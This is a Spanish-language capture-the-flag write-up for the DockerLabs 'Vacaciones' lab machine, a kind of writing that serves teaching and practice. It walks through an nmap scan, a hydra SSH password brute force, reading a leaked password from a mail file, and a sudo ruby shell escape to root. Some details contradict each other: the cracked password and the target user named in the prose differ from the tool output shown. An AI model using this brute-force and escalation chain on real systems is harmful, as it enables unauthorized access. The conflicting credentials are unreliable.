 ## WRITEUP DE LA MÁQUINA VACACIONES DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```SHELL
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-25 03:01 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
```

Observamos que los puertos 22 y 80 de los servicios ssh, http respectivamente estan abiertos, vamos a tirar por observar la dirección IP en algún buscador ya que el servicio http esta abierto. Vemos la siguiente página:

![Página en blanco](paginablanco.png)

Con un simple ```Control + u``` inspeccionamos a fondo el código fuente de la página. Esto es lo que vemos:

![alt text](controlu.png)

Ahora conocemos dos nombres de usuario y que Camilo debe tener un archivo "correo" por algun lado. Empezaremos por hacer un ataque de fuerza bruta de contraseñas mediante hydra con la wordlist rockyou.txt.

(Como tenemos dos nombres pues habría que probar con los dos, pero os ahorro un tiempo diciendo que solo vamos a obtener la contraseña de Camilo)

```
└─$ hydra -l camilo -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2 -t 5
```

"-l camilo" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a russoski.
<br><br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br><br>
"ssh://172.17.0.2" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br><br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña. (Nos va a tomar un par de minutos)

Este es el resultado:

```shell
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-25 03:19:41
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/

[22][ssh] host: 172.17.0.2   login: camilo   password: password1

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-25 03:20:16
```

Encontramos en la línea apartada (la he separado yo para que sea más legible), que la contraseña es "iloveme". Ahora toca mediante conexion ssh entrar al usuario russoski.

Hay veces que se cierra la conexión con un WARNING: REMOTE  HOST IDENTIFICATION HAS CHANGED!, para solucionar solo hay que ejecutar el ssh con un sudo delante, si el problema persiste habra que borrar la clave de la contraseña que está en esta ruta ~/.sh/known_hosts , haciendo un "cat" y borrando la información del archivo ya podremos conectarnos sin problema:
<br>

```
└─$ sudo ssh camilo@172.17.0.2
```

Siendo el usuario camilo, vemos que ``` sudo -l ``` no se puede ejecutar porque no estamos en el grupo de "sudoers", pero es que tampoco nos sirve ``` find / -perm -4000 2>/dev/null ``` porque ningún binario nos es útil.

Es momento de aprovechar la información que sabemos de que camilo debe haber recibido un correo, buscando mediante ```find -name "correo" 2>/dev/null```

En cambio si busco lo mismo pero con la palabra "mail", así, ``` find / -name "mail" 2>/dev/null ``` encontramos dos directorios:

```
$ find / -name "mail" 2>/dev/null
/var/spool/mail
/var/mail
```

Mirando un poco en ambos, encontramos que tienen otro directorio llamado camilo y dentro de este un archivo llamado "correo.txt", un simple "cat" y nos muestra lo siguiente:

```
Hola camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Recordamos que Juan ha enviado este correo según estaba escrito en el codigo de la página web. Hacemos un ```su juan``` y ponemos la contraseña, somos juan:

```
$ whoami
juan
```
Probamos con un ``` sudo -l ``` y esta vez si que vamos a poder escalar privilegios, en este caso con el binario ruby. Vamos al sito web https://gtfobins.github.io/# y buscamos "ruby" en el apartado de "sudo", ```sudo ruby -e 'exec "/bin/sh"'```.

Ejecutamos y...

```
$ sudo ruby -e 'exec "/bin/sh"'
# whoami
root
```

Somos root, muchas por seguir este write up!!